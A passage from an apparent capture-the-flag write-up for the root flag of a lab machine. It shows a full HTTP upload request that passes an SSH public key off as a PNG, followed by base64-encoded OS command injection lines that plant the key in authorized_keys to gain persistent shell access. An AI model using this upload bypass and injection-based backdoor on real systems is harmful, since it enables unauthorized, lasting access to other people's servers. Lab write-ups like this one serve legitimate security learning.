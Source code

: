 ### root.txt

> 🚧 **Description** : Root flag located in /root/root.txt

In order to get stable shell, we can ssh to the machine by adding ssh key to authorize_keys. Before this, im using rsa key but one writeup from richard parker team are using `ed25519` because of much faster and public key are smaller than rsa. You can generate `ed25519` key using `ssh-keygen`.

```bash
❯ ssh-keygen -t ed25519 -C "hek@hek.com"
```

Once it generated, it will be saved at `~/.ssh/id_ed25519.pub`. The flow gonna be like this.

- Upload `id_ed25519.pub` to the server using upload features (change the extensions)

```http
POST /api/upload HTTP/1.1
Host: 10.10.56.213:3000
Content-Length: 2950
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.56.213:3000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBp8wD0KdqyP7IIjQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.56.213:3000/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=.eJwljktuAzEMQ-_idRey5Z9ymYFFSUhQoAVmklXRu9dBl3wgwfeTjjj9uqfb83z5Rzoelm4JOr3A0LgKtRpLSSUyaCHUMnUFLE9Ck167vnFD7THDQyK8DtAUeVdHji7VnHJTosJdnBg8lvKCUlmNRcWCw6ZKh8wwpC3yuvz8tyk74jrjeH5_-tcGE5lLNxDbftk7R54NM8RlobMOX-qjpd8_FwJB_A.Y7OfDg.jCVyeNjj9Hza_5PegigQoIhNfyA
Connection: close

------WebKitFormBoundaryBp8wD0KdqyP7IIjQ
Content-Disposition: form-data; name="file"; filename="id_ed25519.png"
Content-Type: image/png

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEBtY/QPeKmTlOiIyOQTZwUDUKSK9NvYQBL08XaWv0nE qi@qi.com

------WebKitFormBoundaryBp8wD0KdqyP7IIjQ--
```

- Use OS injection to create `/home/user/.ssh` directory
```bash
❯ echo "mkdir /home/user/.ssh" | base64 -w 0
```
- Read `id_ed25519` file and save it to `/home/user/.ssh/authorized_keys` like below. If you try to `ls` all files in current directory, it will append `uploads` in front of the filename. For example, I uploaded a png file named `id_ed25519.png`, so the system will saved it as `uploadsid_ed25519.png`. Bad code from programmer tho.

```bash
❯ echo "cat uploadsid_ed25519.png > /home/user/.ssh/authorized_keys" | base64 -w 0
```
